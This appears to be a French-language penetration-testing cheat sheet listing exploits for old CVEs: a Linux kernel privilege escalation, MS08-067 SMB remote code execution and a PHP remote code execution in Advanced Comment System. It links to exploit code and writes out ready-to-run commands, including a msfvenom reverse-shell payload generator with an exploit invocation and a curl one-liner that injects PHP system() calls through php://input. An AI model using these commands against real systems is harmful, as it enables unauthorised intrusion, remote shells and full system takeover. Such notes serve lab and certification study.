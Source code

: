 # CVE

## Linux

#### CVE-2009-2698 (Linux Kernel < 2.6.19 (x86/x64) - 'udp\_sendmsg') - LPE - ROOT

```
https://github.com/xiaoxiaoleo/CVE-2009-2698 #Binaire
https://github.com/pythonmaster41/Go-For-OSCP/blob/master/Exploits/9545.c #Versions vulnérables
```

## Windows

#### MS08-067 (SMB) - RCE - SYSTEM

```
https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86
python3 Python3-MS08-067.py <IP> 1 445 #Changer l'OS cible en modifiant le '1'
```

## WEB

#### CVE-2009-4623 (Advanced Comment System 1.0) - RCE

```
curl -s --data "<?system('<CMD>');?>" 'http://<IP>/internal/advanced_comment_system/admin.php?ACS_path=php://input%00'
```
